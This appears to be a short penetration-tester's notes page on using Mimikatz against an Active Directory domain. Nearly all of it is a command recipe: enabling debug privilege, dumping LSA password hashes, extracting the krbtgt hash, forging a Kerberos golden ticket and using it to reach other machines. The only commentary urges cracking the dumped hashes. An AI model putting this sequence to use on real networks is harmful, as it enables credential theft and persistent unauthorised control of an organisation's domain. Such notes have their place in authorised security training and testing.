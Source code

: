 ```yaml
---
description: >-
  Mimikatz is a very popular and powerful post-exploitation tool mainly used for
  dumping user credentials inside of a active directory network
---
```


# Mimiktaz

```
mimikaz.exe
```

Ensure privileges are set

```
privilege::debug
```

dump the hashes

```
lsadump::lsa /patch
```

Crack the hashes !\
\


### Kerberos Golden ticket

```
lsadump::lsa /inject /name:krbtgt
```

Interesting stuff:

<figure><img src="../../.gitbook/assets/Yzq71aI.png" alt=""><figcaption></figcaption></figure>

Create the ticket

```
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Use the ticket

```
misc::cmd
```

Access Other machines

```
dir \\<MACHINE>\
```

